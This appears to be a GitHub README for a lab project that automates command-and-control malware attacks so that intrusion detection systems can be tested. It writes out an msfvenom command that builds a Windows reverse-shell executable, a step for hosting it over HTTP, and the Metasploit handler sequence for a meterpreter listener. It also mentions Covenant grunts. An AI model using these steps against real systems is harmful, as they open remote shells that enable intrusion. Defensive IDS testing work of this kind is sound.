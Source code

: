 # C2abstraction
C2 abstraction layer that provides high level diverse malware attacks to test IDS. 

Important Notes: Updated 11-07-2023

The important pyton files are 'C2Abstraction' and 'Mouse Script'

Virtual Machines:
Attacker - Kali Linux (each IP is different => Must change line 64 in setup)
Victim - Another virtual machine (in this case using Windows)

Preliminary work:
    - Setting up Kali Linux (on VMWare, an alternative is on Oracle VM): https://www.youtube.com/watch?v=pwYH0NNWWzU
    - Setting up victim machine: https://www.youtube.com/watch?v=nvdnQX9UkMY&t=259s

METASPLOIT:
    How to create a payload?
        - If you are creating a payload for testing directly from terminal
          run command 'msfvenom -p windows/shell/reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f exe > ~/Desktop/ShellCodes/payload.exe'
          NOTE: this command assumes that you have a folder called 'ShellCodes' (can be removed)

    How to deploy the payload? (Need to automate this step)
        - As of right now, you can create a server to host the payload by
          right clicking on the folder and choose 'open terminal here' then
          use the command 'python3 -m http.server'

        - How to access this sever on the victim machine?
            * Open a webserver and type in 'http://{ip of kali machine}:{port number}'
            * In this case it is 'http://192.168.239.128:8000 (8000 is the default port)

    How to run msfvenom?
        - run 'msfconsole' in command line
        - then type in 'use exploit/multi/handler'
        - then set payload as 'set payload windows/meterpreter/reverse_tcp'
        - set host using 'set lhost {attacker ip}'
        - set listening port using 'set lport {target_port}'
        - then type in 'exploit'
        NOTE: in the code this whole sequence is chained into one line on line 46: 'use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost {target_ip}; set lport {target_port}; exploit;


How to track if HTTP commands/connections are going through?
    -You can catch the logs of the HTTP connections in real time by
        * going to /etc
        * then go to /ssh
        * then use 'nano' command to edit the 'sshd_config' file
        * look for the line '#LogLevel INFO'
        * remove the # then replace INFO with 'VERBOSE'
        * now run 'sudo journalctl -f' in the command line to track the logs

How to run the payload on the victim machine?
    - Using SCP we can connect to


COVENANT:
NOTE: What is the difference between covenant and metasploit?
        - Covenant has a web GUI that requires a script to control the mouse to deploy the malware

How to download covenant/introduction to covenant: https://www.youtube.com/watch?v=BLMW0fougFM
How to use the interface: https://www.youtube.com/watch?v=iX_qsbbNk2w

Mouse Script:
    - This python file is used to automatically control your mouse to create a listener on the GUI
      and create the "grunt" (used for collecting information)




Citation
